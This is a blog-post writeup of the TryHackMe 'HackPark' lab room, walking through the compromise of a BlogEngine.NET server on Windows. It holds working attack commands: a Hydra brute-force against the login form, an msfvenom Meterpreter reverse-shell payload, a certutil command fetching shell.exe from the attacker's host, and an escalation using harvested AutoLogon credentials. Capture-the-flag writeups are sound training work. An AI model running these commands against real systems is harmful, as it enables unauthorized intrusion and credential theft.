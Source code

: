 ```yaml
---
layout: post
title:  "TryHackMe - HackPark Writeup"
date:   2021-11-02 12:52:00 -0400
categories: tryhackme pentesting cybersecurity
comments: true
---
```


[HackPark](https://tryhackme.com/room/hackpark) is a Medium difficulty room, although it guides you along fairly well for the initial foothold, and it's pretty easy to root if you do proper basic enumeration.

## Initial Enumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versitle tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to intead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-Pn`: Don't use `ping` for host detection. This machine doesn't respond to ping, so to get Nmap to scan it at all, we need to use this option.

Using these options, we're left with the following command:
```bash
nmap -sC -sV -vv -Pn -oN nmap-initial.txt 10.10.97.88
```

This machine is surprising quiet considering it's a Windows machine. We get two open ports: 80 and 3389. Nmap detects port 80 running Microsoft IIS and 3389 hosting Remote Desktop.

Investigating the web server on port 80, we find a simple blog with a single post. A little bit of poking around reveals that the site is powered by ASPX, which is pretty common for an IIS server. The site seems to be powered by [BlogEngine.NET](https://blogengine.io/).

## Brute Force
There's a login form accessible from the site's main menu, so we'll try a brute force attack against that to see if the password happens to be vulnerable. Usernames are revealed by BlogEngine through a feature that lets you see all posts by a specific user. The username appears to be "Admin", which would have been an easily guessable username anyway.

We'll use [Hydra](https://github.com/vanhauser-thc/thc-hydra) for our brute force attack. There's a lot of junk we need to tack onto the requests we send to the form, but the main points to note are that `ctl00%24MainContent%24LoginUser%24UserName` is the username field and `ctl00%24MainContent%24LoginUser%24Password` is the password field. We know the password was wrong if we get a "Login failed" message, so we'll tell Hydra to look for that string.

```bash
hydra -l Admin -P /usr/share/wordlists/rockyou.txt 10.10.97.88 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=E2OPdwooQYKBe3hHmFyHa%2Bf42FNOA%2B0i3IfPFd2E6QX4ZFLFHeNhaurK%2BkcrI5TnLLXMiFxKO8IoF2PNUe4yxUE00Ypa1Fw9vUIoNSabbCRy2tPdaEfUccXF3nsmyHtUxFdrxb6w%2FLJ5tv5p5Uo5e4FqjE6fJOA3%2FYKOPDlZ9V38FMGP&__EVENTVALIDATION=x4B7wKhqtjq9qtvOm0hyFmAk48Vm4da4a79DWyJ1XRt6%2BGfR%2BQEE2Pfw9lQ7O0mrmbTenxGMb8si9MEfKGEXDxVPHW99J1XBzWlK7G5Hl11sx5J9sWQwIwtNAFx8skqv9lVGaynV%2BGp5CV81h3etCvc60o8Yu0m5nCeTk2o5BNZTNaEx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Hydra sucessfully finds the password for us, giving us access to the site's admin panel.

## Remote Code Execution
The "About" section gives us a version number of 3.3.6.0. Conveniently, there happens to be [a useful vulnerability with an exploit available on Exploit-DB](https://www.exploit-db.com/exploits/46353). The author was kind enough to give fairly detailed instructions within the script.

Following the instructions in the exploit, we'll set our attacking machine's IP in the script and use BlogEngine's post editor to upload it as `PostView.ascx`. Then we'll leverage a path traversal vulnerability to get BlogEngine to execute our code and give us a reverse shell. We land as a lowly IIS worker user.

This particular Windows reverse shell really sucks and is supposedly unstable, so upgrading to something a bit more attacker-friendly would be nice. We'll throw together an MSFVenom payload to give us a nice Meterpreter shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.14.52 LPORT=9001 -f exe > shell.exe
```

Unfortunately, getting PowerShell to work through this garbage shell is more work than I care to put in, so we'll try out the Certutil method for downloading our file to the target machine ([Thanks, HackTricks](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#download)).

```
certutil.exe -urlcache -split -f "http://10.13.14.52:8000/shell.exe" shell.exe
```

## Privilege Escalation
To give us a good starting point, we'll try running WinPEAS on the machine and see what it can find for us. A handful of interesting results come back.

```
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  *************
```

```
    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
   =================================================================================================
```

```
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
   =================================================================================================
```

The unquoted service path lands in a folder we probably don't have access to, so it's unlikely that we'll be able to take advantage of that. The DLL hijack is promising, but will also take a bit of legwork to set up. The AutoLogon credentials are the most baindead easy possibility of getting access, so we'll try those first. 

![Order 66](/assets/images/order-66.png)

Surprisingly, it just works, and we end up with an admin RDP session. From there we're able to grab both of the flags without issue.

The intended method is using write access to the SystemScheduler folder to overwrite an executable and get a second reverse shell (technically an EXE hijack as opposed to a DLL hijack), but the RDP method is just so much more painless.